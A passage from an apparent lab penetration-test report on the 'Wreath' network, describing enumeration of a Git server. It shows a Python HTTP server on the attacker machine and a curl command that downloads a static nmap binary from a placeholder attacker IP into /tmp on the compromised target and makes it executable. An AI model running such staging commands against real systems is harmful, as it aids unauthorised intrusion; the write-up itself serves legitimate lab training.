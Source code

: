# 5-)Enumeration - Git Server

> Let's use our new knowledge. We know that if a tool is not installed on the target machine, we can upload a static binary version of the tool to the target and use it. So I created an HTTP server by using python to publish Nmap static binary version. So I can download this tool from my machine to the target machine that we can communicate.

![Wreath%20Network%20Pentest%20Report%2013f3633271b04773a86b01bfb7853541/Untitled%209.png](Wreath%20Network%20Pentest%20Report%2013f3633271b04773a86b01bfb7853541/Untitled%209.png)

> I am publishing that Wreath directory and I am downloading that tool on my target machine.

![Wreath%20Network%20Pentest%20Report%2013f3633271b04773a86b01bfb7853541/Untitled%2010.png](Wreath%20Network%20Pentest%20Report%2013f3633271b04773a86b01bfb7853541/Untitled%2010.png)

```bash
sudo python3 -m http.server 80 //For publishing my directory over HTTP.
curl <my_attacking_ip>/tools/Enumeration/Linux/nmap-Janberkb -o /tmp/nmap-Janberkb && chmod +x /tmp/nmap-Janberkb
//It means download nmap-Janberkb from <my_attacking_ip> to /tmp/ folder.
```
